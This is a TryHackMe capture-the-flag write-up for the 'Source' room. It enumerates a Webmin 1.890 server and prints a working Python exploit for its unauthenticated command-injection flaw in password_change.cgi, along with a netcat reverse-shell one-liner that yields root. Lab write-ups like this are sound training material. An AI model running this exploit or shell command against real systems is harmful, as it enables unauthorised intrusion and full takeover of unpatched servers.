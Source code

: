 # Source (THM)

- https://tryhackme.com/room/source
- March 19, 2023
- easy

---

## Enumeration

### Nmap

```
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open     http           syn-ack     MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTPs/10000

![](screenshots/2023-03-19-13-34-17.png)

- it is version 1.89
- after googling, there is Unauthenticated Remote Command Execution 

- I wrote python script to exploit this

```python
import requests
import sys

IP = sys.argv[1]
url = f"https://{IP}:10000"
vuln_url = url + "/password_change.cgi"

headers = {"Referer": f"{url}/session_login.cgi"}
cmd = "id"

payload = {
    "user": "idontknow",
    "pam": "",
    "expired": cmd,
    "old": "idontknow",
    "new1": "something",
    "new2": "something"
}
r = requests.post(vuln_url, data=payload, verify=False, headers=headers)

print(r.text)
```

![](screenshots/2023-03-19-18-51-49.png)

- change cmd variable to get reverse shell -> `rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f`

- listen with nc and run exploit

![](screenshots/2023-03-19-18-57-33.png)

![](screenshots/2023-03-19-18-53-54.png)

- get `root` access directly

---